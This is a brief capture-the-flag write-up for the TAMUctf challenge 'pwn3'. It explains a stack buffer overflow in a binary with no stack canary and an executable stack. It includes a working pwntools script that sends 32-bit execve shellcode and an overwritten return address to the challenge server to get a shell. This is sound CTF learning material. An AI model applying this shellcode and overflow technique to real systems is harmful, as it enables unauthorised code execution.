

# pwn3

nc pwn.tamuctf.com 4323

For this problem, there's no stack canary and the stack is executable. So all I have to do is return to my code and execute it to spawn a shell. The program actually returns the stack address corresponding to the start of the input string stored to the stack, so I just have to return there. For this problem, I used some 32-bit shellcode that I already had lying around -- I think it was from ShellStorm originally. I need 302 bytes of input followed by the return address.

Here's the exploit code:

```
# Solve 3.py

from pwn import *
from time import sleep

p = remote('pwn.tamuctf.com', 4323)

p.recvuntil("0x")
shellcode_address = int(p.recv(8),16)
print("stack address = " + str(shellcode_address))
shellcode = "\x31\xC0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\x52\x89\xe2\xb0\x0b\xcd\x80"
payload = shellcode + "A"*(302-len(shellcode)) + p32(shellcode_address) + "\n"
p.send(payload)
p.interactive()
```



Short and sweet.
